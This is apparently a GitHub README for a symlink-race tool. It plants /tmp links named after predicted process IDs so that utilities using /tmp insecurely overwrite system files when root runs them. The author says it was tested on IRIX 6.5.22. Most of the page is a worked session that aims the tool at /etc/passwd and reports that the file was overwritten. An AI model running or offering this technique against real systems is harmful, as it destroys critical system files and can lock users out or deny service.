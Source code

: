 I've been looking around on my SGI Indy running IRIX 6.5.22 checking system utitlities for the use of /tmp.  I've noticed some scripts
using $$ to generate a unique file name in /tmp. I wrote this simple tool to generate links in /tmp in an attempt to clobber
files if the root user were to run any of the vulnerable utitliies.

This code creates an x number of symlinks using the pid in the filename in order to clobber system files by linking to them when programs use /tmp in an insecure manner. This isn't really a problem on modern day unixes.  I've developed and tested it on an SGI Indy R5000 running IRIX 6.5.22.  After running it monitors the target file's modification time to determine if the exploitation succeeded. 
Also,  you can specify with a # sign where the PID appears in the file as some /tmp files the pid maybe between other characters and not always on the end of a file.  

e.g.
-f /tmp/cat_man#.log would be /tmp/cat_man12314.log etc..
```
larry@mathom:~/code/symlinker$ ./symlink -n 10 -f to_dos# -t /etc/passwd
Starting from our own process id: 259857
Symlinking /tmp/to_dos259857->/etc/passwd
Symlinking /tmp/to_dos259858->/etc/passwd
Symlinking /tmp/to_dos259859->/etc/passwd
Symlinking /tmp/to_dos259860->/etc/passwd
Symlinking /tmp/to_dos259861->/etc/passwd
Symlinking /tmp/to_dos259862->/etc/passwd
Symlinking /tmp/to_dos259863->/etc/passwd
Symlinking /tmp/to_dos259864->/etc/passwd
Symlinking /tmp/to_dos259865->/etc/passwd
Symlinking /tmp/to_dos259866->/etc/passwd
Symlinking /tmp/to_dos259867->/etc/passwd
Waiting on a write to one of our predicted links in /tmp or pid to grow past the links we created.
[+] The target file /etc/passwd has been over written!
[+] Modification time changed from Fri Oct 25 13:31:44 2019 to Sun Oct 27 02:39:16 2019

Cleaning up....
Unlinking -> /tmp/to_dos259867
Unlinking -> /tmp/to_dos259866
Unlinking -> /tmp/to_dos259865
Unlinking -> /tmp/to_dos259864
Unlinking -> /tmp/to_dos259863
Unlinking -> /tmp/to_dos259862
Unlinking -> /tmp/to_dos259861
Unlinking -> /tmp/to_dos259860
Unlinking -> /tmp/to_dos259859
Unlinking -> /tmp/to_dos259858
Unlinking -> /tmp/to_dos259857
```

